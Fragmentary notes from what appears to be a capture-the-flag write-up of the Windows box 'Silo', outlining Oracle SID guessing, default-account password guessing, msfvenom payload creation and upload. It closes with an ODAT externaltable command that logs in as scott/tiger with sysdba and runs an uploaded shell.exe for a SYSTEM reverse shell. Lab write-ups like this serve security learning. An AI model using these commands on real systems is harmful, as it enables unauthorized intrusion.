


Windows Boxes
silo
nmap
Oracle Database Attack Tool
SID Guesser
oracle default account wordlist
odat passwordguesser
odat upload
odat utlfile -h
msfvenom
utlfile
odat externaltable
user/root
lessons learned
odat externaltable
odat
externaltable -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba

check back to our listener and we have connected to the box as
system
! no need to priv esc
